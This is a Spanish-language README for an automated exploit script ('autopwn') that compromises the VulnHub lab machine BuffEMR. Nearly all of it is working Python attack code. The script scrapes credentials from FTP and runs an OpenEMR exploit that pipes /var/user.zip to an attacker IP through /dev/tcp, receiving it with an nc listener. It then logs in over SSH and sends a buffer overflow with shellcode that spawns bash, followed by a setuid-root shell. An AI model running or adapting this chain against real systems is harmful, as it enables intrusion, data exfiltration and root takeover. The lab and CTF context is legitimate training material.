

# Autopwn - BuffEMR

En caso de no haber realizado la máquina BuffEMR, es recomendable revisar el [writeup](http://mrpr1ngl3s.github.io/vulnhub/buffemr/ ) para comprender el autopwn.

<p align="center">
	
</p>


# Funcionamiento

Lo primero que realiza el script es acceder a la función **GetCredentials**, obteniendo las credenciales del usuario de la página, para realizar el Mass Assignment, y la contraseña del archivo **.zip**.

```python
def GetCredentials():
	os.system(f"wget -r ftp://{IP} 2>/dev/null")

	with open(f"{IP}/share/openemr/tests/test.accounts") as f:
		credentials = f.read()

	user = re.findall("(.*):", credentials)[1]

	password = re.findall(":(.*)", credentials)[1]

	with open(f"{IP}/share/openemr/sql/keys.sql") as f:
		credentials = f.read()

	passzip = re.findall('"pdfkey", "(.*?)"', credentials)[0]

	return user, password, passzip
```

Tras obtener las credenciales necesarias, elimina el directorio del **FTP**.

```python
shutil.rmtree(f"{IP}")
```

Luego descarga el exploit que realiza el Mass Assignment para enviar el archivo **.zip** en segundo plano.

```python
def MassAssignment():
	os.system("searchsploit -m php/webapps/45161.py 1>/dev/null")

	os.system(f'python2.7 45161.py -u {user} -p {password} -c "cat < /var/user.zip > /dev/tcp/192.168.6.5/1234" http://{IP}/openemr 1>/dev/null')

	os.remove("45161.py")
```

```python
multiprocessing.Process(target=MassAssignment).start()
```

Mientras, por otro lado, recibe el archivo **.zip**, y tras recibirlo, descomprime el archivo, con la contraseña obtenida, para luego conseguir las credenciales del **SSH** mediante expresiones regulares.

```python
def GetPassZip():
	os.system("nc -lvnp 1234 > user.zip")

	subprocess.Popen(["7z", "x","user.zip",f"-p{passZip}"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)

	time.sleep(1)

	with open("user.lst", "r") as f:
		Cred = f.read()

	Ussh = re.findall('(.*) -', Cred)[0]

	Pssh = re.findall('- (.*)', Cred)[0]

	return Ussh, Pssh
```

Finalmente, en la función **Buff** se realiza la conexión vía **SSH**, escapando las barras **\\** en el **shellcode** para que no de problemas, y luego tras realizar el **BufferOverflow** cambia el **ID** del usuario para poder navegar de forma cómoda.

```python
def Buff(username, password):
	ssh_command = f"ssh -o StrictHostKeyChecking=no {username}@{IP}"

	ssh_session = pexpect.spawn(ssh_command, timeout=10)

	ssh_session.sendline(password)

	ssh_session.setwinsize(43, 184)

	ssh_session.sendline("/opt/dontexecute $(python -c 'print \"\\x90\"*479 + \"\\x6a\\x0b\\x58\\x99\\x52\\x66\\x68\\x2d\\x70\\x89\\xe1\\x52\\x6a\\x68\\x68\\x2f\\x62\\x61\\x73\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x52\\x51\\x53\\x89\\xe1\\xcd\\x80\" + \"\\x30\\xd5\\xff\\xff\"')")

	ssh_session.sendline("python3 -c 'import os; os.setuid(0); os.system(\"bash\")'")

	time.sleep(1)

	ssh_session.interact()
```


